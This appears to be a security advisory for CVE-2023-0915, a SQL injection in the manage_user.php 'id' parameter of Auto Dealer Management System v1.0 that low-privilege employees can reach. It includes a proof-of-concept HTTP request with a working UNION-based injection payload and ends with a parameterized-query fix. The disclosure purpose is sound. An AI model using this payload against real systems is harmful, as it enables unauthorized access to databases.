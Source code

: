 # Auto Dealer Management System - SQL Injection on page manage_user.php and parameter is id, application url is (?page=user/manage_user&id=?) with low privilege authentication.

### Date: 
> 18 February 2023

### CVE Assigned:
**[CVE-2023-0915](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0915)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0915) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0915)

### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Auto Dealer Management System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> manage_user.php

> On this page id parameter is vulnerable to SQL Injection Attack

> URL of the vulnerable parameter is: ?page=user/manage_user&id=*

### Description:
> The auto dealer management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below
+ Admin user has full access to the system 
+ Employee user has only a few menu access i.e. dashboard, car models and vehicle (available and transaction)
> Although, employee user doesn't have manage_user.php access but due to broken access control, employee could able to perform the SQL Injection by opening manage_user.php page. Therefore, low-privileged users could able to get the access full system.

### Proof of Concept:
> Following steps are involved:
1. Employee guess the page manager_user.php and pass the random id parameter that parameter is vulnerable to SQL injection (?page=user/manage_user&id=1*)
### Request:
```
GET /adms/admin/?page=user/manage_user&id=1%27+and+false+union+select+1,user(),@@datadir,4,database(),6,7,8,9,10,11--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c1ig2qf0q44toal7cqbqvikli5
Connection: close
```

### Response:

![image](https://user-images.githubusercontent.com/123810418/219888637-627e3abb-4b7a-45e6-a22c-3a5c11b75b61.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM users where id = :id ");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
